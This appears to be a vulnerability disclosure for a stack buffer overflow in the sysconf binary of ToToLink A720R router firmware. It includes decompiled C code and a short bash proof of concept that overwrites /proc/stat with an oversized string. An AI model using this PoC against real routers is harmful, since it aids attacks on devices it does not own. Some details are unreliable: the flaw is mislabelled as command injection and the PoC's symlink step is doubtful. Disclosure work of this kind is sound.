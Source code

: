 # Buffer Overflow Vulnerability in `/proc/stat`	

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | ToToLink A720R Router                                        |
| Firmware Version     | **V4.1.5cu.614_B20230630** (other versions require verification) |
| Vulnerability Type   | **Stack Buffer Overflow**                                    |
| Vulnerable Component | `sysconf`  binary, sub_401EE0 function                       |
| Prerequisites        | Requires control over `/proc/stat` content or local filesystem write permissions (local exploitation only) |

2. Exploitation Path

```c
int sub_401EE0()
{
  ...
  int v16; // [sp+30h] [-168h] BYREF
  int v17; // [sp+34h] [-164h] BYREF
  int v18; // [sp+38h] [-160h] BYREF
  int v19; // [sp+3Ch] [-15Ch] BYREF
  int v20; // [sp+40h] [-158h] BYREF
  int v21; // [sp+44h] [-154h] BYREF
  int v22; // [sp+48h] [-150h] BYREF
  char v23; // [sp+4Ch] [-14Ch] BYREF
  char v24[32]; // [sp+54h] [-144h] BYREF
  _BYTE v25[128]; // [sp+74h] [-124h] BYREF
  _BYTE v26[132]; // [sp+F4h] [-A4h] BYREF
  ...
  memset(v26, 0, 128);
  sleep(1);
  v5 = fopen("/proc/stat", "r");
  if ( !v5 )
    return -1;
  v33 = v5;
  fgets(v26, 128, v5);
  fclose(v33, v6);
  v23 = 0;
  v22 = 0;
  v21 = 0;
  v20 = 0;
  v19 = 0;
  v18 = 0;
  v17 = 0;
  v16 = 0;
  sscanf(v26, "%s%d%d%d%d%d%d%d", &v23, &v16, &v17, &v18, &v19, &v20, &v21, &v22);
  ...
}
```

3. **Vulnerable Binaries:** `sysconf`.
4. 0-Day Command Injection Exploitation Path: In the `sysconf` file, at line 22, `fgets(v26, 128, v5)` reads content from the `/proc/stat` file. Then, at line 32, `sscanf(v26, "%s%d%d%d%d%d%d%d", &v23, &v16, &v17, &v18, &v19, &v20, &v21, &v22)` parses the string. Here, `v23` is a single-byte `char`, but `%s` writes at least one `\0`, resulting in a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerabilities:

```bash
# Create a malicious configuration file
mkdir -p /tmp/fakeproc
cat > /tmp/fakeproc/stat <<EOF
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA cpu  1 2 3 4 5 6 7
EOF
ln -sf /tmp/fakeproc/stat /proc/stat
./sysconf
dmesg | tail -n 5
```